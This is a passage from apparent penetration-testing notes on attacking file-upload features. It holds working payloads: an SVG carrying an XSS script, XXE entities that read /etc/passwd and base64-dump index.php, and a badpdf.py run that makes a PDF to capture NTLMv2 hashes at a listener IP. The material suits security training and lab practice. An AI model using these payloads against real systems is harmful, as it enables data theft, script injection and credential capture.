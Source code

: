 If the metadata is not directly displayed, chaning the MIME-type to `text/html`, might cause the file to be treated as an HTML document and directly trigger the payload.

### SVGs

We can include XSS payloads within the XML data of SVG images. Once the image is displayed, the payload will be triggered.

{% code overflow="wrap" %}
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">
<svg xmlns="http://www.w3.org/2000/svg" version="1.1" width="1" height="1">
    <rect x="1" y="1" width="1" height="1" fill="green" stroke="black" />
    <script type="text/javascript">alert(window.origin);</script>
</svg>
```
{% endcode %}

We can also perform [XXE](injections/xxei/) attacks using SVG images. This can be used for reading the web application's source files.

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<svg>&xxe;</svg>
```

{% code overflow="wrap" %}
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=index.php"> ]>
<svg>&xxe;</svg>
```
{% endcode %}

### PDFs

For Windows targets, we can create and upload a malicious PDF file and attempt to steal the user's NTMLv2 hash using [`badpdf.py`](https://github.com/deepzec/Bad-Pdf):

{% code overflow="wrap" %}
```bash
$ sudo python2 badpdf.py                                                                                                                                                                                                                   

Responder detected :/usr/sbin/responder
Please enter Bad-PDF host IP: 
10.10.14.2
Please enter output file name: 
malicious.pdf
Please enter the interface name to listen(Default eth0): 
tun0
[*] Starting Process.. [*]
Bad PDF malicious.pdf created
```
{% endcode %}
